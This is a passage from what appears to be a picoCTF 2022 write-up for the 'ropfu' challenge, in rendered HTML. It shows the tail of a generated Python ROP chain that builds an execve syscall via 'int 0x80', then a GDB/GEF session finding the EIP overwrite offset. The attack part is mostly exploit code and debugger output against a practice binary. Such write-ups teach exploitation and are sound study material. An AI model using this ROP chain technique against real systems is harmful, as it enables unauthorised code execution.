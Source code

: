 .data</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x08049e39</span>) <span class="comment"># pop ecx ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5068</span>) <span class="comment"># @ .data + 8</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080583c9</span>) <span class="comment"># pop edx ; pop ebx ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5068</span>) <span class="comment"># @ .data + 8</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5060</span>) <span class="comment"># padding without overwrite ebx</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0804fb90</span>) <span class="comment"># xor eax, eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0808055e</span>) <span class="comment"># inc eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0804a3d2</span>) <span class="comment"># int 0x80</span></span><br></pre> </td></tr></table></figure>

Oh, wow. It generated the entire script for us (unfortunately in Python2), with only a few missing bits and bobs! The only things we need to manually configure now are the offset and remote connection. Since the `checksec` mentioned that there was a canary enabled, it looks like we'll have to manually guess the offset with the `$eip`:

<figure class="highlight text" style="margin-bottom:-2.5%"> <figcaption><span>GEF - "GDB enhanced features"</span><a href="https://gef.readthedocs.io/en/master/"><span style="color:#82C4E4">[documentation]</span></a> </figcaption><table><tr><td class="code"><pre><span style="color:#47D4B9"><b>gef➤  </b></span>shell python3 -q
>>> print('A'*28 + 'B'*4)
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
>>> 
<span style="color:#47D4B9"><b>gef➤  </b></span>r
Starting program: /home/kali/ctfs/pico22/ropfu/vuln 
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
<span style="color:#367BF0">0x42424242</span> in <span style="color:#FEA44C">??</span> ()
[ Legend: <span style="color:#EC0101"><b>Modified register</b></span> | <span style="color:#D41919">Code</span> | <span style="color:#5EBDAB">Heap</span> | <span style="color:#9755B3">Stack</span> | <span style="color:#FEA44C">String</span> ]
<span style="color:#585858"><b>──────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">registers</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>$eax   </b></span>: <span style="color:#9755B3">0xffffd540</span>  →  <span style="color:#FEA44C">"AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"</span>
<span style="color:#EC0101"><b>$ebx   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$ecx   </b></span>: <span style="color:#D41919">0x80e5300</span>  →  <span style="color:#585858"><b><_IO_2_1_stdin_+0> mov BYTE PTR [edx], ah</b></span>